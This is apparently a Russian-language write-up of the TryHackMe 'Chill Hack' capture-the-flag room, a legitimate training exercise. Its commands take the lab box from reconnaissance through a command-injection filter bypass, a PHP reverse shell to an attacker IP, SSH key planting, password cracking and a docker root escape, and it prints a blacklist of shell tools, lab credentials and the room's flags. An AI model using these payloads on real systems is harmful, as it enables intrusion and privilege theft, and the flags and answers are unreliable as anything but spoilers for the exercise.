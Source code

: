 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Chill Hack](https://tryhackme.com/r/room/chillhack) 

Всего 1 заданиe:
## Задание 1
Охладите хак машины.

Легкий уровень CTF. Захватывайте флаги и получайте удовольствие!
Вы начинаете с поиска уязвимости инъекции команд на веб-сервере и эксплуатируете уязвимость, чтобы получить оболочку 
на коробке. Затем вам нужно эксплуатировать скрипт bash и повысить свои привилегии до пользователя с именем apaar, а 
затем вы можете сбросить ключ SSH, а затем воспользоваться SSH для переадресации портов на порт, работающий на 
локальном хосте. Веб-сайт, на котором вы сделали переадресацию портов, уязвим для инъекции SQL, и вы можете 
использовать это, чтобы обойти аутентификацию, а затем получить доступ к аутентифицированному контенту. После входа 
в систему вы найдете подсказку, которая заставляет вас подозревать стенографию. Скопируйте изображение на свой ящик, 
выполните анализ стего и получите резервный zip-файл. zip-файл зашифрован с помощью пароля. Вы генерируете хэш с 
помощью zip2john и кряка с john the ripper и получаете пароль для zip-файла. Извлеките zip-файл и вы найдете 
исходный код PHP, который содержит некоторые учетные данные для другого пользователя. Повысьте свои привилегии до 
этого пользователя и обнаружите, что он в группе docker, сделайте немного магии GTFOBins и получите root shell на 
коробке, это действительно забавная коробка без особых слов, давайте перейдем к делу
### Ответьте на вопросы ниже
Пользовательский флаг
```commandline
nmap -sC -sV 10.10.51.62
ftp 10.10.51.62
# anonymous
ls -la
get note.txt -
cat note.txt
# Anurodh and Apaar
```
Возвращаясь к моему сканированию Gobuster, я обнаружил несколько каталогов, и один из них был интересным `http://10.10.51.62/secret/`.
Я решил заглянуть в каталог и обнаружил, что там есть файл index.php, который может выполнять команды.
```commandline
gobuster dir -u http://10.10.51.62 -x txt,php,tar,zip -w /usr/share/wordlists/dirb/common.txt
# http://10.10.51.62/secret/
```
Я решил начать с простого и просто выполнить `ls`, чтобы получить список каталогов. Но когда я выполнил команду, я 
получил сообщение об ошибке. Я подумал, что это может быть страница троллей, не имеющая реальной функции, но чтобы 
подтвердить свои подозрения, я попробовал другую команду `whoami`, затем `ifconfig`. И команды выполнились просто 
отлично. Потом я предположил, что в команде была фильтрация по некоторым словам. Самый простой способ, которым я всегда пытаюсь обойти 
любую фильтрацию при инъекции команды, — это использовать обратные косые черты. Если я не экранирую специальные 
символы, то слово будет интерпретироваться bash одинаково. Итак, я попробовал снова выполнить ls, но в этом случае 
я добавил обратную связь между l и s. Далее я решил взглянуть на PHP-файл, в котором выполняются команды, и 
посмотреть, какие еще слова были занесены в черный список скриптом с помощью приведенной ниже команды. 
```commandline
ls
ifconfig
l\s -la
c\at index.php
```
И глядя на источник, мы видим еще несколько слов, которые фильтруются скриптом, включая
```commandline
nc, python, bash, php, perl, rm, cat, head, tail, python3, more, less, sh, ls
```
Эти слова в основном используются для получения обратных оболочек на любой системе. Но теперь у нас есть способ 
обойти эти ограничения. Теперь давайте получим оболочку. 
Я создал обратную оболочку bash
```commandline
whoami;php -r '$sock=fsockopen("your-vpn-ip",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```
на вашей машине запускаем прослушивание порта 4444, а затем bash
```commandline
nc -lvnp 4444
python3 -c 'import pty;pty.spawn("/bin/bash")'
sudo -l
cat /home/apaar/.helpline.sh
sudo -u apaar ./.helpline.sh
cat local.txt
```
```commandline
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
```
Корневой флаг
```commandline
id
ssh-keygen
echo "your-ssh-public-key-contents" >> /home/apaar/.ssh/authorized_keys
ssh -L 9001:127.0.0.1:9001 apaar@10.10.51.62 -i id_rsa
# http://127.0.0.1:9001

cd /var/www/files/
cat account.php
cat index.php
# mysl:dbname=webportal;host=localhost, root, !@m_her00+@db

mysql -u root -p

SHOW DATABASES;
USE webportal
SHOW TABLES;
SELECT * FROM users;
```
Глядя на файл hackers.php мы получаем подсказку и картинку, первая мысль, которая пришла в голову, была стенография. 
Я загрузил изображение на свой локальный ящик с помощью wget. Далее я попробовал простые методы стенографии.

```commandline
cat hacker.php
wget http://127.0.0.1:9001/images/hacker-with-laptop_23-2147985341.jpg
file hacker-with-laptop_23-2147985341.jpg 
steghide extract -sf hacker-with-laptop_23-2147985341.jpg
zip2john backup.zip > backup.hash
john backup.hash --wordlist=/usr/share/wordlists/rockyou.txt
# pass1word        (backup.zip/source_code.php)
unzip backup.zip
# pass1word
cat source_code.php
echo -n IWQwbnRLbjB3bVlwQHNzdzByZA== | base64 -d ; echo

# Username: anurodh
# Password: !d0ntKn0wmYp@ssw0rd
```

```commandline
su - anorodh
# Password: !d0ntKn0wmYp@ssw0rd
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
id
cd /root
ls -la
cat proof.txt
```
```commandline
{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)